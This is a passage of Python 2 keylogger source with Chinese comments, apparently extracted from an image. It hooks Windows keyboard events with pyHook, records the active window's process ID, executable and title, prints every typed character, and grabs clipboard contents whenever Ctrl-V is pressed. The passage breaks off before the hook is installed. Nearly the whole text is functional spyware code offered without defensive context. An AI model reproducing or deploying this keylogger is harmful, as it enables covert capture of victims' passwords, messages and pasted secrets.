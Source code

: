 ```
    # 获得窗口句柄
    hwnd = user32.GetForegroundWindow()
 
    # 获得进程ID
    pid = c_ulong(0)
    user32.GetWindowThreadProcessId(hwnd, byref(pid))
 
    # 保存当前进程ID
    process_id = "%d" % pid.value
    print process_id
 
    # 申请内存
    executable = create_string_buffer("\x00" * 512)
 
    h_process = kernel32.OpenProcess(0x400 | 0x10, False, pid)
 
    psapi.GetModuleBaseNameA(h_process, None, byref(executable), 512)
 
    # 读取窗口标题
    window_title = create_string_buffer("\x00" * 512)
    length = user32.GetWindowTextA(hwnd, byref(window_title), 512)
 
    # 输出
    print "\n [ PID: %s - %s - %s ]" % (process_id, executable.value, window_title.value)
 
    # 关闭句柄
    kernel32.CloseHandle(hwnd)
    kernel32.CloseHandle(h_process)
 
 
def KeyStroke(event):
 
    global current_window
 
    # 检查目标是否切换窗口
    if event.WindowName != current_window:
        current_window = event.WindowName
        get_current_process()
 
    # 检测按键是否为常规键
    if event.Ascii > 32 and event.Ascii < 127:
        print chr(event.Ascii),
 
    else:
        # 如果输入为ctrl-v 则获取剪贴板内容
        if event.Key == "V":
            win32clipboard.OpenClipboard()
            pasted_value = win32clipboard.GetClipboardData()
            win32clipboard.CloseClipboard()
 
            print "[PASTE] - %s" % (pasted_value),
 
        else:
            print "[%s]" % event.Key,
 
    return True
 
# 创建和注册钩子函数管理器
kl = pyHook.HookManager()
kl.KeyDown = KeyStroke
 
 
# 注册键盘记录的钩子并永久执行
```